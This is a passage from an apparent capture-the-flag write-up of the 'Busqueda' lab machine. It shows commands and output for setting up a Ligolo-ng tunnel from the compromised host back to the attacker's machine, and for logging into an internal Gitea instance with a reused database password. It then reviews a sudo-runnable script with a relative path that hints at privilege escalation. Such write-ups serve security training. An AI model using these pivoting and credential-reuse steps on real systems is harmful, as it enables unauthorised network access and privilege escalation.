 First I setup Ligolo for easier access to the internal ports, so I don't need to do port forwarding for each separately.

```text
$ ligolo-proxy -selfcert -laddr 0.0.0.0:31337
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:31337          
```

On the target:

```console
svc@busqueda:~$ ./ligolo-agent -ignore-cert -connect 10.10.14.12:31337
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.14.12:31337"
```

Create the `tuntap` device and start the tunnel:

```console
$ sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up && ifconfig ligolo
[sudo] password for kali:
ligolo: flags=4241<UP,POINTOPOINT,NOARP,MULTICAST>  mtu 1500
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
RX packets 0  bytes 0 (0.0 B)
RX errors 0  dropped 0  overruns 0  frame 0
TX packets 0  bytes 0 (0.0 B)
TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
...

ligolo-ng » session
? Specify a session : 1 - #1 - svc@busqueda - 10.10.11.208:34778
[Agent : svc@busqueda] » tunnel_start 
[Agent : svc@busqueda] » INFO[0119] Starting tunnel to svc@busqueda              
```

Now I have full access to the internal ports.

```console
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

After scanning the ports I'm able to identify a Gitea instance running on port 3000. The credentials above for `cody` work, but that user only has access to the main Searcher application. I can also login as `administrator` using the the value for `MYSQL_PASSWORD` discovered above via `docker-inspect`.

From here I can view a repository called `scripts`. The script `/opt/scripts/system-checkup.py` is the one that the `svc` account is able to run via Sudo, which I can now inspect for a PE opportunity. The `full-checkup` mode of that script contains this:

```python
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
```
